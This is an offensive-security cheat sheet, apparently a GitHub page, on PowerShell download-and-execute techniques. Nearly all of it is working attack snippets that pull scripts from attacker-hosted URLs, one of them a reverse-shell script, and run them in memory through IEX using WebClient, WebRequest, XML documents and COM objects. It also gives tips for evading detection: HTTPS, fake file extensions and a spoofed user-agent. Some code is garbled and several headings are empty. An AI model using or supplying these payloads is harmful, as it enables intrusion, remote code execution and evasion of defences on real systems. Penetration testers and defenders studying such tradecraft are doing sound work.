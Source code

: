 Download and run within the PowerShell process memory
IEX is only useful for downloading and executing PS1 scripts and BATCH (.BAT) files into memory. This will NOT download and execute an EXE file into memory.
# deploy http server
```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

# Net.WebClient DownloadString Method
```powershell
cmd> powershell.exe -nop -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1')"
```
```powershell
PS> iex (New-Object Net.Webclient).DownloadString ("http://attacker_url/script.ps1")
```
```powershell
PS> $downloader = New-Object System.Net.WebClient
PS> $payload = "http://attacker_url/script.ps1"
PS> $command = $downloader.DownloadString($payload)
PS> Invoke-Expression $command
```
Evasion Tips:
- When hosting your remote PowerShell script, to have an SSL certificate configured on the attacker machine. This helps in evading over-the-wire heuristics as our traffic will go over HTTPS
- Help in evading basic file extension heuristics is to give our PowerShell script a different extension, for instance, “Logo.gif”. PowerShell will still execute it as a.ps1 script.
- Net.WebClient class allows us to specify a custom user-agent string when sending the request to our attacker URL.
```powershell
PS> $downloader = New-Object System.Net.WebClient
PS> $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
PS> $payload = "http://192.168.13.62/Get-ProcessPaths.psi"
PS> $command = $downloader.DownloadString($payload)
PS> iex $command
```
# Net.WebClient DownloadData Method
# Net.WebClient OpenRead Method
# Net.WebRequest class
```powershell
PS> $req = [System.Net.WebRequest]::Create("http://attacker_URL/script.ps1") # Instantiate our System.Net.WebRequest class as the $req variable
PS> $res = $req.GetResponse() # Create a $res variable to store the WebRequest response
PS> iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd() # Use the “Invoke-Expression” alias (iex) to invoke the System.IO.StreamReader and execute our code
```
```powershell
# configure to use proxy
PS> $req = [System.Net.WebRequest]::Create("http://attacker URL/script.ps1"
PS> $req.GetResponse()
PS> $proxy = [Net.WebRequest::GetSystemWebProxy()
PS> $proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
PS> $req.Proxy
PS> iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToFEnd (
```
# Certutil.exe w/ -ping argument
# System.Xml.XmIDocument
Execute a powershell command (or any system command) contained within an attacker hosted XML document.
Likely not detected, especially when combined with a server over HTTPS.
```xml
# create an XML file
<?xml version="1.0"?>
<command>
	<a>
		<execute>Get-Process</execute>
	</a>
</command>
```
```powershell
# execute hosted XML file
PS> $xmldoc = New-Object System.Xml.XmlDocument 
PS> $xmldoc.Load("http://attacker_url/file.xml")
PS> iex $xmldoc.command.a.execute
```
# COM Objects
To both download and execute scripts on target systems.
All of the COM Objects are proxy- aware, and will by default, use system configured proxies, except for the “WinHttp.WinHttpRequest.5.1” object, although that object can be configured to use one if needed.
## Msxml2.XMLHTTP Com Object 
```powershell
PS> $downloader = New-Object -ComObject Msxml2.XMLHTTP 
PS> $downloader.open("GET", "http://attacker_URL/script.psl", $false)
PS> $downloader.send()
PS> iex $downloader.responseText
```
## Microsoft.XMLHTTP Com Object 
## InternetExplorer.Application COM Object
The `InternetExplorer.Application` COM Object represents an instance of the Internet Explorer browser. It can be automated to navigate to web pages, manipulate browser settings, and retrieve content.
```powershell
$ie = New-Object -ComObject InternetExplorer.Application # Create InternetExplorer.Application COM Object
$ie.Navigate("http://example.com") # Navigate to the URL
# Wait for the page to load (optional)
while ($ie.Busy) {
    Start-Sleep -Milliseconds 100
}
$content = $ie.Document.body.innerText # Extract content from the loaded page (optional)
$ie.Quit() # Close the Internet Explorer instance
Invoke-Expression $content # Execute the retrieved content in memory
```
## Word.Application COM Object
The `Word.Application` COM Object is used for automating Microsoft Word. It allows you to create, manipulate, and interact with Word documents programmatically.
The script content is then downloaded using `New-Object System.Net.WebClient).DownloadString($scriptUrl)` and added to the Word document. The rest of the code remains the same for saving the document to a MemoryStream and executing its content in memory.
```powershell
# URL of the remote PowerShell script
$scriptUrl = "http://<IP>:<port>/<skrypt.ps1>"
$scriptContent = (New-Object System.Net.WebClient).DownloadString($scriptUrl) # Download the PowerShell script content
$word = New-Object -ComObject Word.Application # Create Word.Application COM Object
$document = $word.Documents.Add() # Create a new document
# Add a paragraph with the downloaded PowerShell script content
$paragraph = $document.Paragraphs.Add()
$paragraph.Range.Text = $scriptContent
# Save the document in memory (optional)
$memoryStream = New-Object IO.MemoryStream
$document.SaveAs([ref]$memoryStream)
$word.Quit() # Close the Word application
$documentContent = [System.Text.Encoding]::UTF8.GetString($memoryStream.ToArray()) # Convert the saved document to string
Invoke-Expression $documentContent # execute in memory
```
## Excel.Application COM Object 
## MsXml2.ServerXmlHttp Com Object 
## WinHttp.WinHttpRequest.5.1 (Not Proxy Aware)
```powershell
# Powershell
$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$downloader.open("GET", "http://attacker_URL/script.psl", $false)
$downloader.send()
iex $downloader.responseText
```